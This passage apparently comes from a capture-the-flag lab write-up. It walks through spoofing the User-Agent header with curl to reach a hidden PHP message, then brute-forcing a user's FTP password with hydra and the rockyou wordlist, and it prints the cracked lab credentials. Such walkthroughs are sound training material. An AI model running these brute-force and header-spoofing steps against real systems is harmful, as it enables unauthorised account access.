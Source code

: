 ```
HTTP/1.1 302 Found
Date: Wed, 05 Aug 2020 07:00:13 GMT
Server: Apache/2.4.29 (Ubuntu)
Location: *agent_C_attention.php*
Content-Length: 218
Connection: close
Content-Type: text/html; charset=UTF-8
```

The wording is the same as the rest but we have a .php file we can look at. So let us add that file to the browser tab and see what we get:
```
Attention chris,

Do you still remember our deal? Please tell agent J about the stuff ASAP. Also, change your god damn password, is weak!

From,
Agent R 
```
So a message from Agent R to chris (more likely an indication that all names relate to Agent status: Agent C = Chris). We also have an indication that we have a poor password. So let us look at the two areas we know about - FTP and SSH.

For reference if we used the curl command on the website, it has the option to: -A, --user-agent <name> Send User-Agent <name> to server and also incase of redirects (as we see for the .php file above), we can add: -L, --location      Follow redirects.
```
curl 'http://10.10.96.58/' -A C -L
```
This will give us the same text as above for Chris, and I'm sure this could have been automated for all the agents in a bash script.


## hydra

Hydra can easily be set up for both FTP and SSH brute forcing. In this case I tried FTP first and within a few minutes had a username and password set.
```

hydra -l chris -P /usr/share/wordlists/rockyou.txt ftp://10.10.96.58
Hydra v9.0 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2020-08-05 08:21:21
[WARNING] Restorefile (you have 10 seconds to abort... (use option -I to skip waiting)) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking ftp://10.10.96.58:21/
[21][ftp] host: 10.10.96.58   login: chris   password: crystal
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2020-08-05 08:22:31
```
While we look at the FTP side, I set off hydra on the SSH with chris as the username. 
